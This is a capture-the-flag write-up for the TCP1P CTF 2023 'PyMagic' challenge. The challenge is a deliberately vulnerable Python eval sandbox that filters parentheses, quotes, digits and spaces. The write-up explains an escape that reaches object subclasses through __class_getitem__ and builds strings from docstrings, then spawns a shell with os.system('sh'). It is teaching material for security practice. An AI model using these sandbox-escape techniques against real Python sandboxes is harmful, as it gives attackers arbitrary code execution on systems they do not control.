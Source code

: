 ## TCP1P CTF 2023 PyMagic

```python
#!/usr/bin/env python3
import re

class something_to_do_huh:...
eval = eval
code = input('>>> ')

if not re.findall('[()\'"0123456789 ]', code):
    for k in (b:=__builtins__.__dict__).keys():
        b[k] = None
    
    eval(code, {'__builtins__': {}, '_': something_to_do_huh})
```

Requirements:

1. No `()`: Use `class.__class_getitem__` and `class[]` to bypass
2. No strings: Use docstrings and `str[index]` to create strings
3. No numbers: Use `True` as 1
4. No spaces: Use `\r` to bypass while making `input()` happy
5. No builtins: Use `().__class__.__base__.__subclasses__()`

First, we need to find the familiar classes we want, e.g. `_sitebuiltins._Helper` from `().__class__.__base__.__subclasses__()`. However, we cannot use `()`, so to invoke the function, inspired by [misc/PySysMagic writeup](https://starlit.melyr.space/posts/l3akctf-2024/pysysmagic/), we need to:

1. Assign `_.__class_getitem__` to `type.__subclasses__` using `[None for _.__class_getitem__ in [type.__subclasses__]]`
2. Use `_[[].__class__.__base__]` to invoke `().__class__.__base__.__subclasses__()`: because `_` is the class, so `_[arg]` is essentially `_.__class__getitem__(arg)`

Code:

```python
[
    type:=[].__class__.__class__,
    [None for _.__class_getitem__ in [type.__subclasses__]],
    _[[].__class__.__base__],
]
```

Then, we can locate the familiar classes here. The next thing is to get shell. Since `__class_getitem__` requires exactly one argument to call, so we use `sys.modules("os").system("sh")` directly instead:

1. To find `os`, we need to locate `_sitebuiltins.Printer` class
2. Under its `__init__.__globals__`, use `dict.values(arg)` to extract its values
3. Since `dict.values()` returns an iterator, convert it to list using `list(arg)`
4. Now sys is in the list: `sys = values[-4]`, os is `sys.modules["os"]`
5. Call `os.system("sh")` using the trick `[None for _.__class_getitem__ in [os.system]], _["sh"]`

The strings above are constructed from help text.

